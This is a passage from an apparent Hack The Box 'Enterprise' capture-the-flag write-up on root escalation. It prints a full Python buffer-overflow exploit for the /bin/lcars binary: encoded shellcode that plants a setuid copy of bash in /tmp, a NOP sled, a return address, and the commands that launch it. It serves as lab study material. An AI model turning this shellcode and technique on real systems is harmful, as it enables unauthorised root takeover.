 ```
nop + shellcode + return_addr
```

Then it runs the python script and redirect the output to a file. From there, the actual exploitation is quite odd to me:

```bash
cat payload.txt | env - /bin/lcars
```

It also asked to do the following commands before exploitation.

```bash
unset env LINES 
unset env COLUMNS
```

Here is the full python script.

```python
import struct
 # The below shellcode will copy /bin/bash to /tmp/writeup and chmod 4777 it
 # Executing it with /tmp/writeup -p will grant a root shell
 shellcode =  ""
 shellcode += "\xd9\xee\xbd\x8f\x1f\x9f\xe9\xd9\x74\x24\xf4\x5f\x29"
 shellcode += "\xc9\xb1\x16\x83\xef\xfc\x31\x6f\x15\x03\x6f\x15\x6d"
 shellcode += "\xea\xf5\xe2\x29\x8c\x58\x93\xa1\x83\x3f\xd2\xd6\xb4"
 shellcode += "\x90\x97\x70\x45\x87\x78\xe2\x2c\x39\x0e\x01\xfc\x2d"
 shellcode += "\x23\xc5\x01\xae\x27\xb5\x21\x81\xc5\x5c\x4c\xf2\x6b"
 shellcode += "\xff\xe3\x64\x4c\xd0\x77\x18\xfc\x01\x0f\x90\x95\x29"
 shellcode += "\x8a\x21\x16\xea\x74\xa9\xbe\x61\x1a\x49\x1f\x4d\xd3"
 shellcode += "\xa6\x68\x8d\x34\xbd\xfb\xbd\x65\x4a\x76\x54\x0e\xd1"
 shellcode += "\x03\xd6\xee\x4e\xbf\x9f\x0e\xbd\xbf"
addr = struct.pack('<L', 0xffffdd60)
padding = 212
nops = "\x90" * 70
payload = "picarda1\n4\n"
payload += nops
payload += shellcode
payload += "A" * (padding - len(nops) - len(shellcode))
payload += addr
payload += "\n"
print payload
```

This is similar to the first approach I tried not including the ENV stuff, but mine was not working for some reasons.

## References
* [HTB: Enterprise | 0xdf hacks stuff](https://0xdf.gitlab.io/2021/06/16/htb-enterprise.html#shell-as-root)